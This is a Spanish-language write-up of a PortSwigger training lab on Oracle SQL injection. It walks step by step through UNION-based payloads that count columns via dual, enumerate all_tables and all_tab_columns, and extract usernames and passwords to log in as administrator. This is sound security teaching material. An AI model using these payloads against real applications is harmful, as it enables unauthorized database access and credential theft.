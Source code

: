 ```yaml
---
title: PortSwigger - SQL injection attack, listing the database contents on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, listing the database contents on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en el botón **Gifts** o en cualquier otro.

![](/images/images-portswigger-sqli/lab10-1.png)

Como en los demás retos la SQL injection está en la url. 

Para comenzar a enumerar en Oracle siempre debemos especificar una tabla, pero como no conocemos ninguna usaremos [**dual**](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm).

```sql
' UNION SELECT null from dual-- -
```

![](/images/images-portswigger-sqli/lab10-2.png)

Con un solo `null` la página nos devuelve un error, pero si seguimos agregando nos damos cuenta que existen 2 columnas.

```sql
' UNION SELECT null,null from dual-- -
```

![](/images/images-portswigger-sqli/lab10-3.png)

Ahora es tiempo de enumerar el nombre de la tabla donde se encuentran las credenciales, para eso usaremos la tabla **all_tables** y seleccionaremos el nombre de las tablas con **table_name**.

```sql
' UNION SELECT table_name,null from all_tables-- -
```

![](/images/images-portswigger-sqli/lab10-4.png)

Con `CTRL + f` escribimos **USERS** y podemos encontrar de manera más rapida la tabla que nos interesa `USERS_XKMLUO`.

![](/images/images-portswigger-sqli/lab10-5.png)

Ahora enumeraremos los nombres de las columnas. Para eso usaremos la tabla `all_tab_columns`, le indicaremos que queremos la columna `column_name` y que nos muestro solo la tabla con nombre `USERS_XKMLUO`.

```sql
' UNION SELECT column_name,null from all_tab_columns where table_name = 'USERS_XKLMUO'-- -
```

- Ten en cuenta que la string después del guión bajo (`_XKLMUO`) es aleatorio para cada usuario, por lo tanto, la tuya será diferente a la mía. Además ten en consideración las mayúsculas, escribe la tabla y las columnas en maýusculas cuando corresponda. Finalmente ten cuidado con las comillas porque también puede darte error.

![](/images/images-portswigger-sqli/lab10-6.png)

Podemos ver que nos devuelve los 2 nombres de las columnas `PASSWORD_UJZJJK` y `USERNAME_HIFSMI`.

![](/images/images-portswigger-sqli/lab10-7.png)

Con esta información podemos terminar de construir nuestro query.

Primero reemplazamos los null por los nombres de las columnas y le indicamos sobre qué tabla debe sacar la información.

```sql
' UNION SELECT PASSWORD_UJZJJK,USERNAME_HIFSMI from USERS_XKLMUO-- -
```

![](/images/images-portswigger-sqli/lab10-8.png)

Podemos ver las credenciales de la cuenta de administrador.

![](/images/images-portswigger-sqli/lab10-9.png)

Hacemos click en el botón **My account**.

![](/images/images-portswigger-sqli/lab10-10.png)

Ingresamos las credenciales.

![](/images/images-portswigger-sqli/lab10-11.png)

Y resolvemos el laboratorio.

![](/images/images-portswigger-sqli/lab10-12.png)


---

## [Anterior](/SQL-injection-attack%2C-listing-the-database-contents-on-non-Oracle-databases)